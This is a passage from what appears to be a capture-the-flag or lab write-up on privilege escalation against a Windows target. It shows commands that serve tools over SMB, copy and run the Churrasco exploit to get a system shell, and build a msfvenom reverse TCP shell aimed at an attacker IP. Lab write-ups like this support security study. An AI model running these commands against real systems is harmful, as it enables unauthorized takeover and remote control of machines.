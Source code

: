 ## Privilege escalation

After a lot of searching and struggling I came to find this link:
https://github.com/Re4son/Churrasco

I downloaded the exe and saved it on my work folder and started a smbserver to transfer

```zsh
 python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
```

On the window's shell

```cmd
copy \\10.10.14.9\tools\churrasco.exe 
```

After it loaded on the machine

```cmd
churrasco -d "c:\windows\system32\cmd.exe"
```

All I did was ran this multiple times until it worked and my eyes fell on this

![Interesting output](./images/prv_new.png)

Now I quickly made a msfvenom ```rev.exe``` using this

```zsh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f exe > rev.exe   
```
Copied this is my shared folder with the machine and then transferred it to the target
